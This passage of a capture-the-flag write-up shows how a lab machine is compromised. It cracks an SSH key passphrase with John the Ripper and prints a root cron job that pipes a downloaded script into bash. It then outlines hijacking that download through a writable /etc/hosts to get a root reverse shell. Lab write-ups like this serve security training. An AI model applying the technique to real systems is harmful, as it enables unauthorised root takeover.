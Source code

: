 to get this private key into a format that John the Ripper can crack. Finally, we can run the following to get the password for the SSH private key:

> `john ./id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt`

This [shows us](john.log) the password is: `james13`. We can now SSH into this server with:

> `ssh james@xxx.xxx.xxx.xxx -i ./james_id_rsa`

From that, we can retrieve the `user.txt` flag.

### Privilege Escalation

Linpeas showed that we had write-permissions on `/etc/hosts`. Meanwhile, `/etc/crontab` has an entry like this:

```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
Also see: [linpeas.log](linpeas.log)

#### The Killchain

This is a multi-step operation where we need to stand up a web server to offer our payload to the target machine, who we want to trick into download that payload. The idea is to:

1. Target: Modify `/etc/hosts` to point back to our workstation for `overpass.thm`.
1. Attacker: Stand up a webserver that hosts `/downloads/src/buildscript.sh`.
1. Attacker: Develop a payload that will spawn a reverse shell, and put it into that `buildscript.sh`.
1. Attacker: Create a listener to catch the session (e.g. `nc` or Metasploit).

Then, in the next minute:

1. The cronjob will kick off, reach out to OUR server for `buildscript.sh`.
1. `buildscript.sh` executes, running as `root`, and connects back to our listener.
1. We now have a reverse shell running as `root`. We can now retrieve the `/root/root.txt` flag.

For more of the details, see below.
